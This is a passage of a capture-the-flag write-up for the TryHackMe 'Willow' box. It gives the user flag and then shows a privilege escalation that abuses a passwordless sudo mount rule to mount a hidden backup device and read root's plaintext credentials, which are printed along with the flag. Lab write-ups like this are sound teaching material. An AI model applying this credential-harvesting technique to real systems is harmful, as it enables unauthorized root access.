 The flag is in `user.jpg`:

!["user.jpg"](files/user.jpg)

User flag: `THM{beneath_th_weeping_willow_tree}`

#2 - Root Flag:

*Hint: Where, on a Linux system, would you first look for unmounted partitions?*

## Mounting the hidden backup

Let's check our privileges.

~~~
willow@willow-tree:~$ sudo -l
Matching Defaults entries for willow on willow-tree:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*
~~~

We can mount partitions in `/dev/*` with sudo without password. OK, let's check what we have in /dev:

~~~
$ ls -l /dev/
total 0

[REDACTED]

lrwxrwxrwx  1 root root          13 Jun 11 16:54 fd -> /proc/self/fd
crw-rw-rw-  1 root root      1,   7 Jun 11 16:54 full
crw-rw-rw-  1 root root     10, 229 Jun 11 16:54 fuse
brw-rw----  1 root disk    202,   5 Jun 11 16:54 hidden_backup
crw-------  1 root root     10, 228 Jun 11 16:54 hpet
drwxr-xr-x  2 root root           0 Jun 11 16:54 hugepages
lrwxrwxrwx  1 root root          25 Jun 11 16:54 initctl -> /run/systemd/initctl/fifo

[REDACTED]

~~~

Surprise... `/dev/hidden_backup` sounds like a good candidate!

~~~
willow@willow-tree:~$ mkdir /home/willom/bcp/
willow@willow-tree:~$ sudo mount /dev/hidden_backup /home/willow/bcp/
willow@willow-tree:~$ ls -l /home/willow/bcp/
total 1
-rw-r--r-- 1 root root 42 Jan 30 15:19 creds.txt
willow@willow-tree:~$ cat /home/willow/bcp/creds.txt 
root:7QvbvBTvwPspUK
willow:U0ZZJLGYhNAT2s
~~~
